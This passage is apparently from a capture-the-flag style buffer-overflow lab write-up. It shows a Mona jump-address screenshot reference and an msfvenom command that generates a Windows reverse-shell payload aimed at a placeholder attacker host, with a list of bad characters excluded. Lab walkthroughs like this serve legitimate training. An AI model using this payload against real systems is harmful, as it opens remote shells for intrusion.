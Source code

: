 ![Mona jmp](/images/THM/buffprep/of3/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x11,\x40,\x5f,\xb8,\xee" -f c
```
